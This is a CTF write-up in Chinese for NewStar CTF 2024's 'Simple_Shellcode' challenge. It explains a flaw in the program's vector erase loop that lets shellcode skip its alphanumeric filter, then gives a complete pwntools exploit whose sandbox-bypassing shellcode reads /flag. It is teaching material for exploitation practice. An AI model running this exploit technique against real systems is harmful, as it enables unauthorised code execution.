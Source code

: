 ```yaml
---
titleTemplate: ":title | WriteUp - NewStar CTF 2024"
---
```


<script setup>
import Container from '@/components/docs/Container.vue'
</script>

# Simple_Shellcode

程序有两个功能

![运行程序](/assets/images/wp/2024/week5/simple_shellcode_1.png)

一是输入 shellcode，二是运行 shellcode

```cpp
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  int v3; // [rsp+Ch] [rbp-34h] BYREF
  _QWORD v4[6]; // [rsp+10h] [rbp-30h] BYREF

  v4[3] = __readfsqword(0x28u);
  sub_3602();
  sub_BEEE((__int64)v4);
  while ( 1 )
  {
    sub_3A6D();
    std::istream::operator>>(&std::cin, &v3);
    if ( v3 == 1 )
    {
      sub_3ADC((__int64)v4);
    }
    else if ( v3 == 2 )
    {
      sub_3C67(v4);
      sub_3E3A((__int64)v4);
    }
    else
    {
      std::operator<<<std::char_traits<char>>(&std::cout, "浣犲湪鍋氫粈涔堝憿馃槨馃槨馃槨");
    }
  }
}
```

其中，`v4` 是用来存储 shellcode 的 `vector`

```cpp
std::vector<std::string> code;
```

在输入功能中，一次只能输入 8 个字符

检测功能中，如果检测到 shellcode 含有非字母或数字，就会删掉这段 shellcode

```cpp
if ( (unsigned __int8)sub_B9F1(v4, v3) != 1 )
    {
      v8 = sub_C962((__int64)a1);
      v9 = sub_C9AE(&v8, i);
      sub_CA14(&v10, &v9);
      sub_CA42(a1, v10);
      v5 = std::operator<<<std::char_traits<char>>(&std::cout, &unk_F130);
      std::ostream::operator<<(v5, &std::endl<char,std::char_traits<char>>);
    }
```

<Container type='tip'>

当然，使用 AE64 直接生成 shellcode 也是可以的
</Container>

```cpp
for (i = 0; i < code.size(); i++) {
    auto line = code[i];
    if (!std::all_of(line.begin(), line.end(), [](char c) {
        return (c >= '0' && c <= '9') || (c >= 'A' && c <= 'Z') || (c >= 'a' && c <= 'z');
    })) {
        code.erase(code.begin() + i);
        std::cout << "想什么呢雑魚, 非字母是不行的😡😡😡" << std::endl;
    }
}
```

```cpp
template<typename _Tp, typename _Alloc>
   typename vector<_Tp, _Alloc>::iterator
   vector<_Tp, _Alloc>::
   _M_erase(iterator __position)
   {
     if (__position + 1 != end())
_GLIBCXX_MOVE3(__position + 1, end(), __position);
     --this->_M_impl._M_finish;
     _Alloc_traits::destroy(this->_M_impl, this->_M_impl._M_finish);
     _GLIBCXX_ASAN_ANNOTATE_SHRINK(1);
     return __position;
   }
```

通过查看 `erase` 的源码，发现 `erase` 是通过将后面的元素 MOVE 到前面，然后 `--finish` 实现的

而在程序实现的删除算法中，`erase` 后没有将 `i--`，这就会导致，如果 `idx=2` 的元素被删除了，`i++`（`i=3`），而 `erase` 会将后面的元素 MOVE 到前面，原本 `idx=3` 的元素会移动到 `idx=2`，这样会导致原本 `idx=3` 的元素绕过检测

也就是说，我们将会被删除的元素输入两次，即可绕过检测

对于沙箱，洒洒水啦：openat + mmap + writev

```python
#!/usr/bin/env python3
from pwn import *
import re

context(log_level='debug', arch='amd64', os='linux')
context.terminal = ["tmux", "splitw", "-h"]
uu64 = lambda x: u64(x.ljust(8, b'\x00'))
s = lambda x: p.send(x)
sa = lambda x, y: p.sendafter(x, y)
sl = lambda x: p.sendline(x)
sla = lambda x, y: p.sendlineafter(x, y)
ru = lambda x: p.recvuntil(x)

k = 1
if k:
    host = addr.split(':')
    p = remote(host[0], host[1])
else:
    p = process('./Simple_Shellcode')
elf = ELF('./Simple_Shellcode')

def debug():
    gdb.attach(p, 'b *$rebase(0x3F50)\nc\n')

def sp_input(byte_str):
    for i in range(0, len(byte_str), 8):
        chunk = byte_str[i : i + 8]

        input(chunk)

        if re.search(rb'[a-zA-Z0-9]', chunk):
            input(chunk)

def input(data):
    sla(b'Choose', b'1')
    sl(data)

def run_code():
    sla(b'Choose', b'2')

shellcode = '''
    mov rsp, rbp
'''
shellcode += shellcraft.openat(-100, "/flag", 0, 0)
shellcode += '''
    mov rdi, 0x777721000
    mov rsi, 0x100
    mov rdx, 1
    mov r10, 2
    mov r8, 3
    mov r9, 0
    mov rax, 9
    syscall
    push 1
    pop rdi
    push 0x1    /* iov size */
    pop rdx
    push 0x100
    mov rbx, 0x777721000
    push rbx
    mov rsi, rsp
    push SYS_writev
    pop rax
    syscall
'''

payload = asm(shellcode)

sp_input(payload)
run_code()

p.interactive()
```
